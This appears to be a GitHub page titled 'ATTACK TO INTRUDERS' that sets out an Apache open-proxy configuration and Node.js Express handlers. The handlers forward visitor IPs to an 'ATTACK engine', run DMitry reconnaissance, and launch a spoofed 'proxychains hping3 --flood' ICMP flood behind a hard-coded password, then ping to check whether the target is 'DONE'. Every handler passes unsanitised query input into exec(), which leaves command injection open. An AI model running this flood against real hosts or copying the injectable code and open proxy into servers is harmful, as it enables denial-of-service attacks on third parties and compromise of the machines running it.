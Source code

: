 <hi>ATTACK TO INTRUDERS 😹</h1>
<img src="https://github.com/dewebdes/Iranian-Cyber-Army/blob/master/ghost/fishing/bg-img-01.jpg" />
<hr>
<ul>
  <li><h2>Create Feed For Intruders</h2>
    <pre>
    <VirtualHost *:443>
ServerName admin.yourdomain.com


#CustomLog <LOG-PATH> combined
#ErrorLog <ERROR-LOG-PATH>
ProxyRequests On


# Example SSL configuration
SSLEngine on
SSLProtocol all -SSLv2
SSLCipherSuite HIGH:MEDIUM:!aNULL:!MD5
SSLCertificateKeyFile /root/SSL/star_yourdomain_com.key
SSLCertificateFile /root/SSL/STAR_yourdomain_com.crt
SSLCertificateChainFile /root/SSL/STAR_yourdomain_com.ca-bundle
ProxyPreserveHost On
ProxyPass / http://localhost:yourportnumber/
ProxyPassReverse // http://localhost:yourportnumber/
<IfModule mod_headers.c>
Header set Access-Control-Allow-Origin "*"
</IfModule>
</VirtualHost>
<VirtualHost *:80>
ServerAdmin info@yourdomain.com
ServerName admin.yourdomain.com

ProxyRequests On
ProxyPreserveHost On
<IfModule mod_headers.c>
Header set Access-Control-Allow-Origin "*"
</IfModule>

<Proxy *>
Order deny,allow
Allow from all
</Proxy>

<Location />
ProxyPass http://localhost:yourportnumber/
ProxyPassReverse http://localhost:yourportnumber/
</Location>

</VirtualHost>
    </pre>
  </li>
  <li>
  <h2>Send Intruder Connections to ATTACK Engine</h2>
  <pre>
  app.get('/', function(req, res){
	var ipAddress = req.headers['x-forwarded-for'];
const https = require('https')
	var request = require('request');

	var propertiesObject = { cmd : 'getipinfo',  dip : ipAddress  };

	request({url:'https://ATTACK.yourdomain.com', qs:propertiesObject}, function(err, response, body) {
		if(err) { console.log("**ERROR: "+err); return; }
		  res.send("Net info for " + ipAddress + "<br>" + body);
	});

//  res.send('Hello Admin! - '+ipAddress);
})
  </pre>
</li>
<li>
  <h2>DMitry, Full Detect Connection Network Arc.</h2>
  <pre>
  app.get('/', function(req, res){
	var ipAddress = req.headers['x-forwarded-for'];
	var dip = req.query.dip;
	var cmd = "dmitry -i " + dip;

var child;
	child = exec(cmd,
			function (error, stdout, stderr) {
				var dlog = 'stdout: ' + stdout + "\n";
				dlog += 'stderr: ' + stderr + "\n";
				if (error !== null) {
					dlog += 'exec error: ' + error + "\n";
				}
				res.send(dlog);
			});
})
  </pre>
</li>
<li>
  <h2>Death ATTACK 😈</h2>
  <pre>
  app.get('/', function(req, res){
	var ipAddress = req.headers['x-forwarded-for'];
	console.log("post: "+ipAddress);
	console.log("\n\n" + JSON.stringify(req.headers) + "\n\n" );

	var dip1 = req.query.dip1;
	var dip2 = req.query.dip2;
	var dsec = req.query.dsec;

	console.log("dip1: "+dip1+"\n"+"dip2: "+dip2+"\n"+"dsec: "+dsec+"\n");

if(dsec != "yakhoda"){return;}

console.log("OK1");

if(dip1==undefined){return;}

console.log("OK2");

var cmd = "proxychains hping3 -1 --flood " + dip1 + " -a " + dip2;//"dmitry -i " + dip;

console.log(cmd);
var child;
	child = exec(cmd,
			function (error, stdout, stderr) {
				var dlog = 'stdout: ' + stdout + "\n";
				dlog += 'stderr: ' + stderr + "\n";
				if (error !== null) {
					dlog += 'exec error: ' + error + "\n";
				}
				var resp = dlog;
				console.log("\n\n"+resp+"\n\n");
				res.send(resp);
			});
})
  </pre>
</li>
<li>
  <h2>Check WHEN the TARGET was DONE 😳</h2>
  <pre>
  app.get('/', function(req, res){
	var ipAddress = req.headers['x-forwarded-for'];
	var dm = req.query.dip;
	var cmd = "ping " + dm;

var child;
	child = exec(cmd,
			function (error, stdout, stderr) {
				var dlog = 'stdout: ' + stdout + "\n";
				dlog += 'stderr: ' + stderr + "\n";
				if (error !== null) {
					dlog += 'exec error: ' + error + "\n";
				}
				res.send(dlog);
			});
})
  </pre>
</li>
 </ul>
